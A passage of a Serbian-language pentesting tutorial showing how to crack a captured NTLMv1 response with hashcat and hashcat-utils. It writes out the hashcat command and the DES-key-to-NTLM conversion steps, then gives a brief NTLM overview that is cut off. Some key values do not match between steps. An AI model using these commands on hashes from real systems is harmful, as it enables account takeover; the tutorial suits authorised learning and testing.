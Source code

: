 Kreirajte datoteku sa sadržajem:

```bash
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```

Pokrenite hashcat (najbolje je distribuirati ga putem alata poput hashtopolisa) jer će inače ovo potrajati nekoliko dana.

```bash
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

U ovom slučaju znamo da je lozinka za ovo "password", pa ćemo varati u svrhu demonstracije:

```bash
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

Sada trebamo koristiti hashcat-utilities da bismo pretvorili razbijene DES ključeve u delove NTLM heša:

```bash
./hashcat-utils/src/deskey_to_ntlm.pl b55d6d05e7792753
b4b9b02e6f09a9 # this is part 1

./hashcat-utils/src/deskey_to_ntlm.pl bcba83e6895b9d
bd760f388b6700 # this is part 2
```

Konačno poslednji deo:

### NTLM

NTLM (New Technology LAN Manager) je autentifikacioni protokol koji se koristi u Windows operativnim sistemima za proveru identiteta korisnika. Međutim, NTLM ima nekoliko slabosti koje mogu biti iskorišćene u napadima.

#### NTLM provajderi

Windows operativni sistem ima tri različita NTLM provajdera:

* **NTLMv1**: Ovo je stariji provajder koji koristi slabu enkripciju i nije preporučljiv za upotrebu.
* **NTLMv2**: Ovo je poboljšani provajder koji koristi jaču enkripciju i predstavlja bolju opciju od NTLMv1.
* **NTLMv2 sesija**: Ovaj provajder koristi NTLMv2, ali dodaje dodatne sigurnosne mehanizme kako bi se otežao napad.

#### NTLM napadi

Postoje različiti napadi koji se mogu izvesti na NTLM protokol. Neki od njih uključuju:
